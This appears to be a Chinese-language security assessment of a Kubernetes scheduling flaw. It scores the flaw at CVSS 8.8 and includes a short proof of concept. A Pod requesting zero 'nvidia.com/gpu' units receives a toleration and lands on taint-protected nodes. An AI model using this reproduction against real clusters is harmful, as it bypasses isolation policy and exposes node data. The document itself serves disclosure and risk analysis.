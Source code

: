    根据 CVSS 3.1 计算，总分为 8.8，高危（High）。

3. **Issue 提交者的行为不影响风险评估：** 不适用。

4. **攻击者利用需要的权限：** 虽然需要创建 Pod 的权限，但在许多环境中这是常见权限，不应降低风险评级。

5. **日志泄露凭据的风险：** 不适用。

**可能的影响：**

- **安全隔离被破坏：** 攻击者可以访问到原本通过污点保护的节点，绕过了集群的安全策略。
- **数据泄露：** 如果受影响节点上有敏感数据，可能被攻击者的 Pod 读取。
- **服务中断：** 攻击者的 Pod 可能影响节点上其他关键服务的稳定性。

**Proof of Concept：**

1. **创建请求 0 个扩展资源的 Pod：**

   ```yaml
   apiVersion: v1
   kind: Pod
   metadata:
     name: malicious-pod
   spec:
     containers:
     - name: malicious-container
       image: busybox
       command: ["sleep", "infinity"]
       resources:
         limits:
           nvidia.com/gpu: "0"
   ```

2. **应用 Pod：**

   ```bash
   kubectl apply -f malicious-pod.yaml
   ```

3. **查看 Pod 的容忍：**

   ```bash
   kubectl get pod malicious-pod -o jsonpath='{.spec.tolerations}'
   ```

   输出显示 Pod 具有对 `nvidia.com/gpu` 的容忍：

   ```json
   [
     {
       "key": "nvidia.com/gpu",
       "operator": "Exists",
       "effect": "NoSchedule"
     }
   ]
   ```

4. **验证 Pod 被调度到受保护的节点：**

   如果集群中存在带有 `nvidia.com/gpu` 污点的节点，Pod 会被调度到这些节点上。
